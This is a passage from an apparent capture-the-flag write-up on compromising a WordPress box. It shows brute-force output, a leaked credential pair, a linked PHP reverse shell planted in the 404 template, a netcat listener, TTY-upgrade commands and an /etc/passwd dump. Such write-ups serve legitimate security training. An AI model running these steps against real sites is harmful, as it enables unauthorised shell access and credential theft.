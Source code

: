 ```sh
[+] Requests Done: 4062
[+] Cached Requests: 4
[+] Data Sent: 1.902 MB
[+] Data Received: 15.967 MB
[+] Memory used: 210.898 MB
[+] Elapsed time: 00:01:34
```

So now we can login to wordpress as admin and look around.

The wordpress page reveals a private note on credentals of william being william:arnold147 sofar this doesnt seem usable

I used this [php reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php), modified IP and port and uploaded it to the wordpress 404 page. Now time to start netcat on the chosen port e.g. ```nc -lvnp 6666``` and call a page that doesn't exist e.g. ```/blog/index.php/2020/08/03/50/``` with e.g. curl.

We now get a reverse shell but no TTY so we can try this: ```python -c 'import pty; pty.spawn("/bin/sh")'``` or this ```/bin/sh -i```.

Let's have a look around:

```sh
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
